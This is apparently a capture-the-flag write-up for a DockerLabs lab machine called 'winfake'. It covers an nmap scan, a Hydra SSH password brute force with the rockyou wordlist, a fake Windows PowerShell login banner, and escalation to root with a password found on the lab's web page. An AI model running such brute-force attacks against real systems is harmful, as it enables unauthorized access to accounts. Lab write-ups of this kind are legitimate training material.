

# winfake

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| winfake | d1se0 | easy / facil | dockerlabs |

**Summary:** The winfake machine is a creative social engineering and credential recovery challenge built on a deceptive premise: the web application is styled as a fake Windows news portal named "TechWorld Noticias," and within its content a password hint is embedded in plain sight. A username, `pipe`, was inferred from the web page's context, and an SSH password bruteforce with Hydra against the rockyou wordlist recovered the credential `kisses`. Upon login, the SSH session was designed to impersonate a Windows PowerShell environment, complete with fake Windows headers, a fake hostname (`DESKTOP-QF02KBF`), and Windows-style directory listings — a deliberate misdirection themed around the machine's name. Beneath the facade, the system was a standard Ubuntu 24.04 host. The web page itself contained the root password in disguised form, capitalized per word as `WinServerRootFakeNews`. A first `su root` attempt failed, and a second attempt with the correct password succeeded, dropping directly into a root shell. Final enumeration confirmed full root access and exposed both the user and root flags.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winfake]
└─$ sudo bash auto_deploy.sh winfake.tar  
[sudo] password for ouba: 

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /"""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winfake]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-27 18:14 +0700
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ac:49:60:90:20:5a:92:7d:7b:4d:13:98:0d:ae:52:6b (ECDSA)
|_  256 68:cd:ce:ec:58:42:e5:c7:52:46:ca:1f:b6:26:a4:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: TechWorld Noticias
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: B6:D0:3A:59:79:C0 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds
```

The scan revealed two open ports: SSH on 22 and an Apache web server on 80. The HTTP title "TechWorld Noticias" pointed to a themed news web application worth inspecting manually.

---

## Initial Access

### Web Application Enumeration

**3. Inspecting the Web Page**

Browsing the web application at `http://172.17.0.2/` revealed a fake Windows-themed news portal. The page content contained a reference to the username `pipe` and embedded a password hint — `WinServerRootFakeNews` — written in plain sight within the page body, capitalized per word.



The username `pipe` was identified as a likely target for SSH access.

### SSH Credential Bruteforce

**4. Hydra SSH Bruteforce for pipe**

With the username `pipe` in hand, a password bruteforce was launched against the SSH service using the rockyou wordlist.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winfake]
└─$ hydra -l pipe -P /usr/share/wordlists/rockyou.txt ssh://$ip -t 8 -I
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-07-27 18:28:55
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344399 login tries (l:1/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 135.00 tries/min, 135 tries in 00:01h, 14344264 to do in 1770:54h, 8 active
[22][ssh] host: 172.17.0.2   login: pipe   password: kisses
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-07-27 18:30:18
```

Hydra recovered the SSH credentials: `pipe:kisses`.

### SSH Login and the Windows Facade

**5. Connecting via SSH**

The SSH session connected successfully and immediately displayed a convincing Windows impersonation: a fake Microsoft Windows header, a fake PowerShell prompt, a spoofed hostname (`DESKTOP-QF02KBF`), and Windows-style `dir` output. Despite the theatrics, the underlying system was Ubuntu 24.04.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/winfake]
└─$ ssh pipe@$ip
Microsoft Windows [Versión 10.0.19045.4412]
(c) Microsoft Corporation. Todos los derechos reservados.
pipe@172.17.0.2's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.12.13-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Jul 27 13:31:06 2026 from 172.17.0.1
Windows PowerShell
Copyright (C) Microsoft Corporation. Todos los derechos reservados.

Intente el nuevo Windows Terminal: https://aka.ms/terminal

PS C:\Users\pipe> whoami
DESKTOP-QF02KBF\pipe
PS C:\Users\pipe> dir

 El volumen de la unidad C no tiene etiqueta.
 El número de serie del volumen es XXXX-YYYY

07/10/2025  03:26 PM             220          .bash_logout
07/10/2025  03:30 PM             846          .profile
07/27/2026  01:13 PM               0          .bash_history
07/10/2025  03:33 PM    <DIR>                 .cache
07/10/2025  03:30 PM            3803          .bashrc
07/10/2025  05:05 PM              33          user.txt
```

The home directory of `pipe` contained `user.txt`. The presence of `.bash_logout`, `.bashrc`, and `.profile` immediately confirmed the Linux nature of the host beneath the Windows shell theme.

---

## Privilege Escalation

### Escalating to Root via su

**6. Using the Web Page Password to Switch to Root**

The password embedded in the web page — `WinServerRootFakeNews`, written with each word capitalized — was used to switch to root via `su`. A first attempt failed; the second succeeded.

```powershell
PS C:\Users\pipe> su root
Password: 
su: Authentication failure
PS C:\Users\pipe> su root
Password: 
root@2cbafb285226:/home/pipe# cd
root@2cbafb285226:~# id
uid=0(root) gid=0(root) groups=0(root)
```

**7. Root Enumeration and Flag Retrieval**

With root access confirmed, the home directory was inspected and both flags were read.

```bash
root@2cbafb285226:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
2cbafb285226
root@2cbafb285226:~# ls -la
total 40
drwx------ 1 root root 4096 Jul 10  2025 .
drwxr-xr-x 1 root root 4096 Jul 27 13:13 ..
-rw------- 1 root root   12 Jul 10  2025 .bash_history
-rw-r--r-- 1 root root 3106 Apr 22  2024 .bashrc
drwxr-xr-x 3 root root 4096 Jul 10  2025 .local
-rw-r--r-- 1 root root  161 Apr 22  2024 .profile
drwx------ 2 root root 4096 Jul 10  2025 .ssh
-rw-r--r-- 1 root root   33 Jul 10  2025 root.txt
-rw-r--r-- 1 root root 7654 Jul 10  2025 windows.py
root@2cbafb285226:~# cat /home/pipe/user.txt /root/root.txt 
d97[REDACTED]
fa2[REDACTED]
```

Both flags were captured. The root directory also contained `windows.py`, the script responsible for generating the Windows shell impersonation at login.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified ports 22 (SSH) and 80 (HTTP Apache). The web title "TechWorld Noticias" indicated a themed web application requiring manual review.
2. **Vulnerability Discovery**: Inspecting the web page revealed a fake Windows news portal. The page content disclosed the username `pipe` and embedded the root password `WinServerRootFakeNews` in plain sight within the article text.
3. **Exploitation**: Hydra bruteforced the SSH password for `pipe` using rockyou, recovering the credential `kisses`. SSH login was established successfully.
4. **Internal Enumeration**: The SSH session presented a convincing Windows PowerShell impersonation, including a spoofed hostname and Windows-style directory listings. Standard Linux dotfiles betrayed the true Ubuntu 24.04 environment. The user flag was located in `/home/pipe/user.txt`.
5. **Privilege Escalation**: The password embedded in the web page (`WinServerRootFakeNews`) was used with `su root` to gain a full root shell. Both flags were read via `cat /home/pipe/user.txt /root/root.txt`.
